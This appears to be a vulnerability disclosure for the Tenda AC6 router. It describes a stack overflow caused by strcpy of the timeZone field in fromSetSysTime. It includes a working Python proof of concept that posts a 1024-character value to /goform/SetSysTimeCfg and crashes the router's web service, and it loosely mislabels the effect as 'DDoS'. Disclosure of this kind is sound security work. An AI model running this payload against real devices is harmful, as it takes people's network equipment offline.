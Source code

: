 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Zhao Jiangting(sta8r9@163.com),  Yang Keyan(1670227058@qq.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `fromSetSysTime` function in AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long value for the `timezone` variable, leading to a stack overflow and potentially resulting in a DDoS attack.

# Vulnerability details

Analyzing the `fromSetSysTime` function in this file reveals that when the `timeZone` variable contains an excessively long string, such as 400 consecutive "a" characters, a stack overflow occurs. This happens because the `timezone_buf` variables lack sufficient buffer space and overflow when the value is copied using the `strcpy` function.

![image-20250313211816019](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132118625.png)

Cross-referencing the `fromSetSysTime` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313211831407](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132141330.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/SetSysTimeCfg"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "timeType": "sync",
    "timeZone": "a"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.status_code)
print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)